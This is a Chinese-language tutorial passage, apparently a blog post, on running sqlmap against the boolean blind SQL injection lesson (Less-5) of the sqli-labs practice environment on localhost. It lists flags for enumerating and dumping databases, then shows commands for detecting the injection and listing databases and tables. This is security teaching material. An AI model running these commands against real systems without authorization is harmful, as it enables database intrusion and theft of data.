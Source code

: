 
---


---


## 二、（工具）sqlmap跑布尔盲注

> 
<h3>2.1、命令：</h3>
-u 指定注入点
--dbs 跑库 名
--tables 跑表 名
--columns 跑字段 名
--dump 枚举数据
跑出对应的后，依次加上-D 指定库 -T 指定表 -C 指定字段


> 
<h3>2.2、利用过程：</h3>
<h4>第一步：检测是否存在注入</h4>
**基础操作**
python sqlmap.py http://localhost:8080/sqli-labs-master/Less-5/?id=1 --batch
--batch是使用默认设置





其实环境都扫出来了 
就可以再加上--dbms mysql了
<hr/>
<h4> 第二步：爆数据库名</h4>
**命令**
#获取全部数据库
sqlmap.py -u url --dbs --batch
---------
#获取当前数据库
sqlmap.py -u url --current-dbs --batch
<hr/>
**基础操作**
python sqlmap.py -u 'http://localhost:8080/sqli-labs-master/Less-5/?id=1' --dbs --batch


 <img alt="" height="785" src="https://img-blog.csdnimg.cn/2e3030bb25244021b70a95ddaa2475bd.png" width="1200"/>
<hr/>
<h4> 第三步：爆数据库表名</h4>
**命令**
python sqlmap.py -u url -D DB --tables --batch
<hr/>
**基础操作**
python sqlmap.py -u 'http://localhost:8080/sqli-labs-master/Less-5/?id=1' -D security --tables --batch

